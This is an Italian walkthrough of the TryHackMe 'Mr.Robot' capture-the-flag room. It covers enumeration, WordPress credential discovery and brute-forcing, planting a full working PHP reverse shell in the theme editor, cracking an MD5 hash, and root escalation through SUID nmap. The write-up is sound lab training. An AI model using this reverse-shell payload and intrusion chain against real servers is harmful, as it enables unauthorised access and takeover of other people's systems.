


# Mr.Robot

Link: [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)

Come prima cosa impostiamo correttamente la macchina Kali per iniziare

```bash
echo "10.128.143.12 mrrobot.local" | sudo tee -a /etc/hosts
```

Procediamo poi con l’enumerazione dei servizi presenti nella macchina utilizzando `nmap` 

```bash
kali@kali:~$ sudo nmap -sS -sV -sC -p- mrrobot.local
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-01 10:55 -0400
Stats: 0:01:19 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 53.37% done; ETC: 10:58 (0:01:09 remaining)
Nmap scan report for mrrobot.local (10.128.143.12)
Host is up (0.055s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:30:a5:4f:08:37:65:37:82:ce:79:a6:e7:16:3e:d4 (RSA)
|   256 cc:a6:10:0c:d6:16:2e:56:d5:f6:a8:77:af:cb:cb:a2 (ECDSA)
|_  256 a4:22:4d:98:43:55:21:cc:05:7e:00:d1:98:b3:06:38 (ED25519)
80/tcp  open  http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open  ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 249.63 seconds
                                                                         
```

| Servizio | Porta | Versione |
| --- | --- | --- |
| ssh | 22 |  |
| http | 80 |  |
| https | 443 |  |

Procediamo con l’enumerare i file e cartelle presenti nel servizio web usando `gobuster`

```bash
gkali@kali:~$ gobuster dir -u http://mrrobot.local -w /usr/share/seclists/Discovery/Web-Content/common.txt -x ".php,.txt,.bak"
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mrrobot.local
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.git/index.php       (Status: 301) [Size: 0] [--> http://mrrobot.local/.git/]
.hta                 (Status: 403) [Size: 213]
.hta.bak             (Status: 403) [Size: 217]
.hta.php             (Status: 403) [Size: 217]
.hta.txt             (Status: 403) [Size: 217]
.htaccess            (Status: 403) [Size: 218]
.htaccess.php        (Status: 403) [Size: 222]
.htaccess.txt        (Status: 403) [Size: 222]
.htpasswd.php        (Status: 403) [Size: 222]
.htpasswd            (Status: 403) [Size: 218]
.htaccess.bak        (Status: 403) [Size: 222]
.htpasswd.txt        (Status: 403) [Size: 222]
.htpasswd.bak        (Status: 403) [Size: 222]
0                    (Status: 301) [Size: 0] [--> http://mrrobot.local/0/]
Image                (Status: 301) [Size: 0] [--> http://mrrobot.local/Image/]
admin                (Status: 301) [Size: 235] [--> http://mrrobot.local/admin/]
atom                 (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/atom/]
audio                (Status: 301) [Size: 235] [--> http://mrrobot.local/audio/]
blog                 (Status: 301) [Size: 234] [--> http://mrrobot.local/blog/]
css                  (Status: 301) [Size: 233] [--> http://mrrobot.local/css/]
dashboard            (Status: 302) [Size: 0] [--> http://mrrobot.local/wp-admin/]
favicon.ico          (Status: 200) [Size: 0]
feed                 (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/]
image                (Status: 301) [Size: 0] [--> http://mrrobot.local/image/]
images               (Status: 301) [Size: 236] [--> http://mrrobot.local/images/]
index.php            (Status: 301) [Size: 0] [--> http://mrrobot.local/]
index.html           (Status: 200) [Size: 1188]
index.php            (Status: 301) [Size: 0] [--> http://mrrobot.local/]
intro                (Status: 200) [Size: 516314]
js                   (Status: 301) [Size: 232] [--> http://mrrobot.local/js/]
license              (Status: 200) [Size: 309]
license.txt          (Status: 200) [Size: 309]
login                (Status: 302) [Size: 0] [--> http://mrrobot.local/wp-login.php]
page1                (Status: 301) [Size: 0] [--> http://mrrobot.local/]
phpmyadmin           (Status: 403) [Size: 94]
rdf                  (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/rdf/]
readme               (Status: 200) [Size: 64]
render?url=https://www.google.com.php (Status: 301) [Size: 0] [--> http://mrrobot.local/render%3Furl=https:/www.google.com.php]                                                                               
render?url=https://www.google.com (Status: 301) [Size: 0] [--> http://mrrobot.local/render%3Furl=https:/www.google.com]                                                                                       
render?url=https://www.google.com.txt (Status: 301) [Size: 0] [--> http://mrrobot.local/render%3Furl=https:/www.google.com.txt]                                                                               
render/https://www.google.com.php (Status: 301) [Size: 0] [--> http://mrrobot.local/render/https:/www.google.com.php]                                                                                         
render?url=https://www.google.com.bak (Status: 301) [Size: 0] [--> http://mrrobot.local/render%3Furl=https:/www.google.com.bak]                                                                               
render/https://www.google.com (Status: 301) [Size: 0] [--> http://mrrobot.local/render/https:/www.google.com]                                                                                                 
render/https://www.google.com.bak (Status: 301) [Size: 0] [--> http://mrrobot.local/render/https:/www.google.com.bak]                                                                                         
render/https://www.google.com.txt (Status: 301) [Size: 0] [--> http://mrrobot.local/render/https:/www.google.com.txt]                                                                                         
robots               (Status: 200) [Size: 41]
robots.txt           (Status: 200) [Size: 41]
robots.txt           (Status: 200) [Size: 41]
rss                  (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/]
rss2                 (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/]
sitemap              (Status: 200) [Size: 0]
sitemap.xml          (Status: 200) [Size: 0]
video                (Status: 301) [Size: 235] [--> http://mrrobot.local/video/]
wp-admin             (Status: 301) [Size: 238] [--> http://mrrobot.local/wp-admin/]
wp-app.php           (Status: 403) [Size: 0]
wp-atom.php          (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/atom/]
wp-config            (Status: 200) [Size: 0]
wp-commentsrss2.php  (Status: 301) [Size: 0] [--> http://mrrobot.local/comments/feed/]
wp-content           (Status: 301) [Size: 240] [--> http://mrrobot.local/wp-content/]
wp-config.php        (Status: 200) [Size: 0]
wp-cron              (Status: 200) [Size: 0]
wp-cron.php          (Status: 200) [Size: 0]
wp-feed.php          (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/]
wp-includes          (Status: 301) [Size: 241] [--> http://mrrobot.local/wp-includes/]
wp-links-opml        (Status: 200) [Size: 227]
wp-links-opml.php    (Status: 200) [Size: 227]
wp-load              (Status: 200) [Size: 0]
wp-load.php          (Status: 200) [Size: 0]
wp-login.php         (Status: 200) [Size: 2613]
wp-login             (Status: 200) [Size: 2613]
wp-mail.php          (Status: 500) [Size: 3074]
wp-mail              (Status: 500) [Size: 3074]
wp-rdf.php           (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/rdf/]
wp-register.php      (Status: 301) [Size: 0] [--> http://mrrobot.local/wp-login.php?action=register]
wp-rss.php           (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/]
wp-settings          (Status: 500) [Size: 0]
wp-rss2.php          (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/]
wp-settings.php      (Status: 500) [Size: 0]
wp-signup            (Status: 302) [Size: 0] [--> http://mrrobot.local/wp-login.php?action=register]
wp-signup.php        (Status: 302) [Size: 0] [--> http://mrrobot.local/wp-login.php?action=register]
xmlrpc               (Status: 405) [Size: 42]
xmlrpc.php           (Status: 405) [Size: 42]
xmlrpc.php           (Status: 405) [Size: 42]
Progress: 19000 / 19000 (100.00%)
```

Si capisce subito che è un applicazione wordpress

Guardando la sorgente della pagina principale `/` si trova questo `script javascript` 

```html
<script>var USER_IP='208.185.115.6';var BASE_URL='index.html';var RETURN_URL='index.html';var REDIRECT=false;window.log=function(){log.history=log.history||[];log.history.push(arguments);if(this.console){console.log(Array.prototype.slice.call(arguments));}};</script>
```

Mostra un ip `208.185.115.6` potrebbe tornare utile.

Provando a navigare per gli url trovati…




Ora sappiamo pure che si tratta di `wordpress v4.3.1`



E qui troviamo subito la prima chiave in `http://mrrobot.local/key-1-of-3.txt` e da `robots.txt` troviamo anche una lista di parole che sembrerebbe essere un dizionario delle possibili password, scarichiamolo con `wget http://mrrobot.local/fsocity.dic`

Guardando invece [`http://mrrobot.local/license`](http://mrrobot.local/license) arriviamo a fine della pagina in cui alla fine della pagina si trova un testo codificato `ZWxsaW90OkVSMjgtMDY1Mgo=` che sembra essere Base64, decodificato otteniamo user `elliot` con password `ER28-0652` 

Per completezza:

Partendo dalla wordlist di tutte le password trovate prima, eliminiamo i duplicati con `sort -u` 

```bash
sort -u fsocity.dic > fsocity_uniq.dic
```

```bash
kali@kali:~/Desktop/CTF/MrRobot$ wc -l fsocity.dic
858160 fsocity.dic
                                                                                                                                                                                                                  
kali@kali:~/Desktop/CTF/MrRobot$ wc -l fsocity_uniq.dic 
11451 fsocity_uniq.dic
                           
```

Ora siamo pronti a fare bruteforce sul pannello `wp-admin` !

```bash
kali@kali:~/Desktop/CTF/MrRobot$ wpscan --url http://mrrobot.local --passwords fsocity_uniq.dic --usernames elliot

[!] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652

```

La stessa trovata in precedenza infatti!

Loggandoci nel pannello di admin e andando in `Apparence->Editor`  è possibile modificare file come `404.php`  iniettando `php`  malevolo. Utilizziamo quindi `https://www.revshells.com/` per generare il nostro payload malevolo php.

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.142.32';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Aprendo la pagina creiamo la reverse shell

```php
kali@kali:~/Desktop/CTF/MrRobot$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.142.32] from (UNKNOWN) [10.129.147.133] 49110
Linux ip-10-129-147-133 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 17:28:18 up  1:28,  0 users,  load average: 0.20, 0.05, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
bash: cannot set terminal process group (3068): Inappropriate ioctl for device
bash: no job control in this shell
daemon@ip-10-129-147-133:/$ 
```

che ora stabilizzeremo

```php
kali@kali:~/Desktop/CTF/MrRobot$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.142.32] from (UNKNOWN) [10.129.147.133] 49110
Linux ip-10-129-147-133 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 17:28:18 up  1:28,  0 users,  load average: 0.20, 0.05, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
bash: cannot set terminal process group (3068): Inappropriate ioctl for device
bash: no job control in this shell
daemon@ip-10-129-147-133:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@ip-10-129-147-133:/$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                                                                                                                  
kali@kali:~/Desktop/CTF/MrRobot$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

daemon@ip-10-129-147-133:/$ export TERM=xterm
daemon@ip-10-129-147-133:/$ export SHELL=/bin/bash
daemon@ip-10-129-147-133:/$ 
```

Navigando per il filesystem troviamo la seconda chiave e un file contente un `md5` di una password

```php
daemon@ip-10-129-147-133:/home/robot$ ls
key-2-of-3.txt  password.raw-md5
```

```php
daemon@ip-10-129-147-133:/home/robot$ cat key-2-of-3.txt 
cat: key-2-of-3.txt: Permission denied
daemon@ip-10-129-147-133:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@ip-10-129-147-133:/home/robot$ 
```

Aia! non abbiamo i permessi ma abbiamo la password hashata, possiamo provare a decifrarla con `hashcat`

```php
kali@kali:~/Desktop/CTF/MrRobot$ hashcat --identify c3fcd3d76192e4007dfb496cca67e13b                 

[...]

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

[...]
```

La password è `abcdefghijklmnopqrstuvwxyz`

```php
kali@kali:~/Desktop/CTF/MrRobot$ ssh robot@mrrobot.local
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
robot@mrrobot.local's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Fri Nov 13 23:50:42 2015
$ 
```

Ora possiamo ricavare la chiave in `/home/robot/key-2-of-3.txt`

Ora ci rimane solo da fare privileage escalation verso `root` 

```php
robot@ip-10-129-147-133:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
41 * * * * bitnami cd /opt/bitnami/stats && ./agent.bin --run -D
robot@ip-10-129-147-133:~$ 
```

```php
robot@ip-10-129-147-133:~$ ls -al /opt/bitnami/stats/agent.bin 
-rwxr-xr-x 1 bitnamiftp bitnami 3742628 Oct 20  2014 /opt/bitnami/stats/agent.bin
```

Guardando i processi attivi notiamo `mysql` 

```php
robot@ip-10-129-147-133:~$ ps auxww
root        2250  0.0  0.0   2628  1776 ?        S    16:01   0:00 /bin/sh /opt/bitnami/mysql/bin/mysqld_safe --defaults-file=/opt/bitnami/mysql/my.cnf --port=3306 --socket=/opt/bitnami/mysql/tmp/mysql.sock --datadir=/opt/bitnami/mysql/data --log-error=/opt/bitnami/mysql/data/mysqld.log --pid-file=/opt/bitnami/mysql/data/mysqld.pid --lower-case-table-names=1
mysql       2522  0.0 23.4 1413956 462972 ?      Sl   16:01   0:06 /opt/bitnami/mysql/bin/mysqld.bin --defaults-file=/opt/bitnami/mysql/my.cnf --basedir=/opt/bitnami/mysql --datadir=/opt/bitnami/mysql/data --plugin-dir=/opt/bitnami/mysql/lib/plugin --user=mysql --lower-case-table-names=1 --log-error=/opt/bitnami/mysql/data/mysqld.log --pid-file=/opt/bitnami/mysql/data/mysqld.pid --socket=/opt/bitnami/mysql/tmp/mysql.sock --port=3306

```

```php
robot@ip-10-129-147-133:~$ cat /opt/bitnami/mysql/my.cnf

[mysqladmin]
user=root

[mysqld]
basedir=/opt/bitnami/mysql
datadir=/opt/bitnami/mysql/data
port=3306
socket=/opt/bitnami/mysql/tmp/mysql.sock
tmpdir=/opt/bitnami/mysql/tmp
max_allowed_packet=16M
bind-address=127.0.0.1

character-set-server=UTF8
collation-server=utf8_general_ci
[mysqld_safe]
mysqld=mysqld.bin

[client]
port=3306
socket=/opt/bitnami/mysql/tmp/mysql.sock

default-character-set=UTF8
[manager]
port=3306
socket=/opt/bitnami/mysql/tmp/mysql.sock
pid-file=/opt/bitnami/mysql/tmp/manager.pid
default-mysqld-path=/opt/bitnami/mysql/bin/mysqld.bin
```

Riguardando invece i file con SUID

```php
robot@ip-10-129-147-133:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x 1 root root 39144 Apr  9  2024 /bin/umount
-rwsr-xr-x 1 root root 55528 Apr  9  2024 /bin/mount
-rwsr-xr-x 1 root root 67816 Apr  9  2024 /bin/su
-rwsr-xr-x 1 root root 68208 Feb  6  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 44784 Feb  6  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 53040 Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 85064 Feb  6  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 88464 Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 166056 Apr  4  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 31032 Feb 21  2022 /usr/bin/pkexec
-rwsr-xr-x 1 root root 17272 Jun  2  2025 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 477672 Apr 11  2025 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-- 1 root messagebus 51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Notiamo `-rwsr-xr-x 1 root root 17272 Jun  2  2025 /usr/local/bin/nmap` particolarmente strano… vediamo se riusciamo ad aprire una shell ([https://gtfobins.org/gtfobins/nmap/#shell](https://gtfobins.org/gtfobins/nmap/#shell))

```php
robot@ip-10-129-147-133:~$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> whoami
root
```

Semplicissimo!!! siamo root non ci resta che leggere l’ultima key che si trova in `/root/key-3-of-3.txt`